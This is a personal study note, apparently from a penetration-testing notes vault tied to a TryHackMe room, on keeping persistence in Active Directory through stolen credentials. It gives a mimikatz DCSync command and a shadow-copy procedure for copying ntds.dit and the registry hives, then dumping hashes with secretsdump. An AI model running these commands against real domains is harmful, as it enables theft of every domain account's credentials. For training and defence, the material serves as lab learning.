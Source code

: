 # AD Persistence With Credentials

This technique is the least reliable. Credential are:
- Domain restricted, but
	- Unless Account has `domain replication permissions`, which is required for [[AD-DC-Sync-Attack]]s
- Credential are rotated(changed) and can be by Blue Team, but
	- Near-privileged credentials for persistence is tactic of just enough to re-takeover, we need:
		- Credentials with Local Administrator Rights on as many machines as possible
		- Service Accounts that have delegation permissions for [[AD-Kerberos-Delegation-Exploitation]]
		- Accounts used for privileged AD services: WSUS, SCCM, etc   

## DCSync All

[[Mimikatz-Cheatsheet]]
```powershell
# mimikatz
lsadump::dcsync /domain:$domain /user:$user
# If want to dcsync every account mimikatz has builtin logging 
log dcdump.txt
```

Each domain controller runs a process called the Knowledge Consistency Checker (KCC). The KCC generates a replication topology for the AD forest and automatically connects to other domain controllers through Remote Procedure Calls (RPC) to synchronise information.

#### Shadow Copies

Volume Shadow Service (VSS) is a Microsoft backup technology that allows creation of snapshots of files or entire volumes use it copy `ntds.dit`, `hlkm\SYSTEM`, `hlkm\SAM` and `hlkm\SECURITY`. Exfiltration([[Data-Exfiltration-Defined]]) via some method is required.
```powershell
# Snapshot 
vshadow.exe -nw -p  C:
# And copy 
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
reg.exe save hklm\system c:\system.bak
# Exfiltrate back to Kali
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

## References

[THM AD Persistence Room](https://tryhackme.com/room/persistingad)